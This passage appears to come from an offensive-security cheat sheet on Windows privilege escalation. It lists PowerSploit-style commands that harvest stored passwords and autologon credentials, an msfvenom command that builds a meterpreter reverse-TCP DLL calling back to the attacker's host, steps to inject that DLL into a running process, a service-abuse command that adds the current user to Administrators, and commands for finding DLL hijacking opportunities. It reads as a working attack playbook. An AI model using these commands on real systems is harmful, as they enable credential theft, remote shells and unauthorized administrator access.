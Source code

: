 ```
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

**DLL Injection**

First generate malicious DLL with Msfvenom

```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=your-ip LPORT=your-port -f dll > malicious.dll
```

Next we need to PID of the process which will be our target. You can obtain the PID from the task manager or by listing the running processes. Then we invoke the DLL injection module

```
Invoke-DLLInjection -ProcessID PID -Dll C:\path-to-malicous-DLL
```

Note: `make sure you setup your listener in metasploit multi handler module with same settings you used when creating the DLL with msfvenom`

**Unquoted service path**

List information about the running services

```
Get-ServiceDetail
```

List services whose binary can be modified by the current user

```
Get-ModifiableService | more
```

Then we can execute below to change the binary path, restart the service and add the current user to the administrators group.

```
Invoke-ServiceAbuse
```

**DLL Hijacking**

Identifying processes that are using/looking for missing DLLs

```
Find-ProcessDLLHijack
```

Next we identify the folder path of these missing DLLs

```
Find-PathDLLHijack
```
